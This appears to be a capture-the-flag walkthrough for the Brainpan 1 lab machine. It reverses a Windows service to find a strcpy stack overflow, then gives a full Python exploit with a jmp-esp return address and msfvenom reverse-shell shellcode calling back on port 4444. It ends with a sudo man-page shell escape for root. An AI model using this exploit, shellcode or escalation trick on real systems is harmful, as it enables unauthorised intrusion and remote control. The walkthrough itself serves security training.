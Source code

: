 ```yaml
---

title: "Brainpan 1"  
date: "2025-4-15"  
thumbnail: "/assets/img/thumbnail/Brainpan1.png"

---
```


# Brainpan 1
---
**Challenges Difficulty: Hard**  
**Category: Revers**

## WALKTHROUGH 

---
Stating with nmap to scan the machine we found a service called abyss on port 9999 a web server running on port 10000
![image.png](/assets/img/posts/Brainpan1/image%2012.png)
Opening it returns a page that has noting interested 
![image.png](/assets/img/posts/Brainpan1/image%2013.png)
let's use dirb to discover directories 

![image.png](/assets/img/posts/Brainpan1/image%2014.png)
opening /bin we found an .exe file called Brainpan.exe lets try to download it

![image.png](/assets/img/posts/Brainpan1/image%2015.png)
let's reverse this file using Ghidra  

![image.png](/assets/img/posts/Brainpan1/image%2016.png)
so this is the one running on port 9999

![image.png](/assets/img/posts/Brainpan1/image%2017.png)
and this program takes one input from the user and returns **ACCESS DENIED** or **ACCESS GRANTED**
![image.png](/assets/img/posts/Brainpan1/image%2018.png)
Friendly advice don't waste yore time to get the correct password as its actually just a printed string
but as i have wasted my time :) so any string that starts with **s** will return **ACCESS GRANTED**
![alt text](/assets/img/posts/Brainpan1/access.png)
actually this is the vulnerable part of the code as strcpy does not check bounds. so If input is longer than 520 bytes, it will overflow local_20c
![image.png](/assets/img/posts/Brainpan1/image%2021.png)
now we want to run this exe inside a debugger to cause a BO and get the address that would be in the eip to start our exploit i will use Immunity Debugger to do so
![image.png](/assets/img/posts/Brainpan1/image%2019.png)
created a pattern using msf-pattern_create to find the exact offset
![image.png](/assets/img/posts/Brainpan1/image%2020.png)

After a looooooooooong time i realized that ncat has a max buffer size of 511 🙂 

let’s use python

```bash
import socket

# Target details
TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999

# Payload (1000 'A' characters)
payload = "A" * 1000  

# Create a TCP socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    # Connect to the target
    s.connect((TARGET_IP, TARGET_PORT))
    print("[+] Connected to the target")

    # Receive banner (if any)
    response = s.recv(1024)
    print("[+] Received:", response.decode(errors="ignore"))

    # Send the payload
    s.sendall(payload.encode())
    print("[+] Sent 1000 bytes")

    # Receive response (if any)
    response = s.recv(1024)
    print("[+] Server response:", response.decode(errors="ignore"))

except Exception as e:
    print("[!] Connection failed:", str(e))

finally:
    s.close()
    print("[+] Connection closed")

```

and finaly it’s a crash

![image.png](/assets/img/posts/Brainpan1/image%2022.png)

![image.png](/assets/img/posts/Brainpan1/image%2023.png)

![image.png](/assets/img/posts/Brainpan1/image%2024.png)
As we successful caused a BO we will use mona script inside Immunity Debugger to find a jmp esp instruction address  

![image.png](/assets/img/posts/Brainpan1/image%2025.png)
created a reverse shell using msfvenom to connect to my local ip throw port 4444 and modified the script

```python
import socket
import struct
# Target details
TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999

# Payload (1000 'A' characters)
offset = b"A"*524 
eip= b'\xf3\x12\x17\x31'       #311712F3  
buf =  b""
buf += b"\xd9\xc1\xba\x43\xbc\xeb\x48\xd9\x74\x24\xf4\x5d"
buf += b"\x31\xc9\xb1\x52\x31\x55\x17\x03\x55\x17\x83\x86"
buf += b"\xb8\x09\xbd\xf4\x29\x4f\x3e\x04\xaa\x30\xb6\xe1"
buf += b"\x9b\x70\xac\x62\x8b\x40\xa6\x26\x20\x2a\xea\xd2"
buf += b"\xb3\x5e\x23\xd5\x74\xd4\x15\xd8\x85\x45\x65\x7b"
buf += b"\x06\x94\xba\x5b\x37\x57\xcf\x9a\x70\x8a\x22\xce"
buf += b"\x29\xc0\x91\xfe\x5e\x9c\x29\x75\x2c\x30\x2a\x6a"
buf += b"\xe5\x33\x1b\x3d\x7d\x6a\xbb\xbc\x52\x06\xf2\xa6"
buf += b"\xb7\x23\x4c\x5d\x03\xdf\x4f\xb7\x5d\x20\xe3\xf6"
buf += b"\x51\xd3\xfd\x3f\x55\x0c\x88\x49\xa5\xb1\x8b\x8e"
buf += b"\xd7\x6d\x19\x14\x7f\xe5\xb9\xf0\x81\x2a\x5f\x73"
buf += b"\x8d\x87\x2b\xdb\x92\x16\xff\x50\xae\x93\xfe\xb6"
buf += b"\x26\xe7\x24\x12\x62\xb3\x45\x03\xce\x12\x79\x53"
buf += b"\xb1\xcb\xdf\x18\x5c\x1f\x52\x43\x09\xec\x5f\x7b"
buf += b"\xc9\x7a\xd7\x08\xfb\x25\x43\x86\xb7\xae\x4d\x51"
buf += b"\xb7\x84\x2a\xcd\x46\x27\x4b\xc4\x8c\x73\x1b\x7e"
buf += b"\x24\xfc\xf0\x7e\xc9\x29\x56\x2e\x65\x82\x17\x9e"
buf += b"\xc5\x72\xf0\xf4\xc9\xad\xe0\xf7\x03\xc6\x8b\x02"
buf += b"\xc4\x96\x4b\x0c\x15\x01\x4e\x0c\x04\x8d\xc7\xea"
buf += b"\x4c\x3d\x8e\xa5\xf8\xa4\x8b\x3d\x98\x29\x06\x38"
buf += b"\x9a\xa2\xa5\xbd\x55\x43\xc3\xad\x02\xa3\x9e\x8f"
buf += b"\x85\xbc\x34\xa7\x4a\x2e\xd3\x37\x04\x53\x4c\x60"
buf += b"\x41\xa5\x85\xe4\x7f\x9c\x3f\x1a\x82\x78\x07\x9e"
buf += b"\x59\xb9\x86\x1f\x2f\x85\xac\x0f\xe9\x06\xe9\x7b"
buf += b"\xa5\x50\xa7\xd5\x03\x0b\x09\x8f\xdd\xe0\xc3\x47"
buf += b"\x9b\xca\xd3\x11\xa4\x06\xa2\xfd\x15\xff\xf3\x02"
buf += b"\x99\x97\xf3\x7b\xc7\x07\xfb\x56\x43\x27\x1e\x72"
buf += b"\xbe\xc0\x87\x17\x03\x8d\x37\xc2\x40\xa8\xbb\xe6"
buf += b"\x38\x4f\xa3\x83\x3d\x0b\x63\x78\x4c\x04\x06\x7e"
buf += b"\xe3\x25\x03"
nop=b'\x90'*50
eof=b"\xCC"
payload= offset+eip+nop+buf+nop+eof
# Create a TCP socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the target
s.connect((TARGET_IP, TARGET_PORT))
print("[+] Connected to the target")

# Receive banner (if any)
response = s.recv(1024)

# Send the payload
s.sendall(payload)
print("[+] Sent 1000 bytes")
```

![image.png](/assets/img/posts/Brainpan1/image%2026.png)
and this worked correctly and got a reverse shell now we want to send it to the actual server **remember to recreate the reverse shell with your ip**

![image.png](/assets/img/posts/Brainpan1/image%2027.png)
and we got a shell but it seems that we are inside Sandbox/Evasion Environment 

![image.png](/assets/img/posts/Brainpan1/image%2028.png)

![image.png](/assets/img/posts/Brainpan1/image%2029.png)
now we know that we can run /home/anansi/bin/anansi_util with sudo 
![image.png](/assets/img/posts/Brainpan1/image%2030.png)
this bin gives us 3 commands that we can run
1. network
2. proclist
3. manual 

from [gtfobins](https://gtfobins.github.io/gtfobins/man/#sudo) we know that we can get a shell from man using
```bash
!/bin/sh
```
![image.png](/assets/img/posts/Brainpan1/bin.png)



